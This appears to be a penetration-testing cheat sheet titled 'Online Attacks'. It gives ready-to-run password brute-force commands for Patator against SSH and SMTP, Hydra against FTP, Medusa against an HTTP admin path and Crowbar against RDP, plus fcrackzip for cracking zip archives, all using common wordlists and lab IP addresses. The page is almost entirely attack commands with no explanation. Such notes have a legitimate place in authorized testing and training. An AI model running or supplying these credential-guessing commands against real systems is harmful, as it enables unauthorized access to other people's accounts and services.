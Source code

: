 # ⭕ Online Attacks

## <mark style="color:red;">Patator</mark>

```
git clone https://github.com/lanjelot/patator.git 
```

```
patator ssh_login host=192.168.56.103 user=FILE0 0=user  password=/usr/share/wordlists/rockyou.txt

patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst
    
patator smtp_login host=192.168.17.129 user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
    
patator smtp_login host=192.168.17.129 helo=’ehlo 192.168.17.128′ user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
    
patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst -x ignore:fgrep=’incorrect            password or account name’
```

## <mark style="color:red;">Hydra</mark>

```
hydra -L /usr/share/nmap/nselib/data/usernames.lst -P /usr/share/nmap/nselib/data/passwords.lst -u -e s -s 25 192.168.0.15 ftp
```

## <mark style="color:red;">Medusa</mark>

```
medusa -h 192.168.1.2 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

## <mark style="color:red;">Crobar</mark>

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

## <mark style="color:red;">fcrackzip</mark>

```
fcrackzip -u -D -p wordlist.txt file.zip
```

